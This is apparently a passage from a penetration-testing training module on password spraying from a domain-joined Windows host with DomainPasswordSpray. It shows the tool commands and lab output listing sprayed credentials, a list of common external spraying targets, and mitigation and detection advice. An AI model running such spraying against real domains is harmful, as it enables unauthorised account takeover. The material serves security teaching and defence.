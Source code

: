 From a foothold on a domain-joined Windows host, the [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) tool is highly effective. 
* If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out. L
* ike how we ran the spraying attack from our Linux host, we can also supply a user list to the tool if we are on a Windows host but not authenticated to the domain. 
* We may run into a situation where the client wants us to perform testing from a managed Windows device in their network that we can load tools onto. 
* We may be physically on-site in their offices and wish to test from a Windows VM, or we may gain an initial foothold through some other attack, authenticate to a host in the domain and perform password spraying in an attempt to obtain credentials for an account that has more rights in the domain.

There are several options available to us with the tool. Since the host is domain-joined, we will skip the `-UserList` flag and let the tool generate a list for us. 
* We'll supply the `Password` flag and one single password and then use the `-OutFile` flag to write our output to a file for later use.

#### Using DomainPasswordSpray.ps1

Internal Password Spraying - from Windows

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

We could also utilize Kerbrute to perform the same user enumeration and spraying steps shown in the previous section. The tool is present in the `C:\Tools` directory if you wish to work through the same examples from the provided Windows host.

---

## Mitigations

Several steps can be taken to mitigate the risk of password spraying attacks. 
* While no single solution will entirely prevent the attack, a defense-in-depth approach will render password spraying attacks extremely difficult.

| Technique                                    | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| -------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Multi-factor Authentication`                | Multi-factor authentication can greatly reduce the risk of password spraying attacks. Many types of multi-factor authentication exist, such as push notifications to a mobile device, a rotating One Time Password (OTP) such as Google Authenticator, RSA key, or text message confirmations. While this may prevent an attacker from gaining access to an account, certain multi-factor implementations still disclose if the username/password combination is valid. It may be possible to reuse this credential against other exposed services or applications. It is important to implement multi-factor solutions with all external portals. |
| `Restricting Access`                         | It is often possible to log into applications with any domain user account, even if the user does not need to access it as part of their role. In line with the principle of least privilege, access to the application should be restricted to those who require it.                                                                                                                                                                                                                                                                                                                                                                              |
| `Reducing Impact of Successful Exploitation` | A quick win is to ensure that privileged users have a separate account for any administrative activities. Application-specific permission levels should also be implemented if possible. Network segmentation is also recommended because if an attacker is isolated to a compromised subnet, this may slow down or entirely stop lateral movement and further compromise.                                                                                                                                                                                                                                                                         |
| `Password Hygiene`                           | Educating users on selecting difficult to guess passwords such as passphrases can significantly reduce the efficacy of a password spraying attack. Also, using a password filter to restrict common dictionary words, names of months and seasons, and variations on the company's name will make it quite difficult for an attacker to choose a valid password for spraying attempts.                                                                                                                                                                                                                                                             |

---

## Other Considerations

It is vital to ensure that your domain password lockout policy doesn’t increase the risk of denial of service attacks. If it is very restrictive and requires an administrative intervention to unlock accounts manually, a careless password spray may lock out many accounts within a short period.

## Detection

Some indicators of external password spraying attacks include many account lockouts in a short period, server or application logs showing many login attempts with valid or non-existent users, or many requests in a short period to a specific application or URL.

In the Domain Controller’s security log, many instances of event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625) over a short period may indicate a password spraying attack. Organizations should have rules to correlate many logon failures within a set time interval to trigger an alert. A more savvy attacker may avoid SMB password spraying and instead target LDAP. Organizations should also monitor event ID [4771: Kerberos pre-authentication failed](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771), which may indicate an LDAP password spraying attempt. To do so, they will need to enable Kerberos logging. This [post](https://www.hub.trimarcsecurity.com/post/trimarc-research-detecting-password-spraying-with-security-event-auditing) details research around detecting password spraying using Windows Security Event Logging.

With these mitigations finely tuned and with logging enabled, an organization will be well-positioned to detect and defend against internal and external password spraying attacks.

---

## External Password Spraying

While outside the scope of this module, password spraying is also a common way that attackers use to attempt to gain a foothold on the internet. We have been very successful with this method during penetration tests to gain access to sensitive data through email inboxes or web applications such as externally facing intranet sites. Some common targets include:

- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication

## Moving Deeper

Now that we have several sets of valid credentials, we can begin digging deeper into the domain by performing credentialed enumeration with various tools. We will walk through several tools that complement each other to give us the most complete and accurate picture of a domain environment. With this information, we will seek to move laterally and vertically in the domain to eventually reach the end goal of our assessment.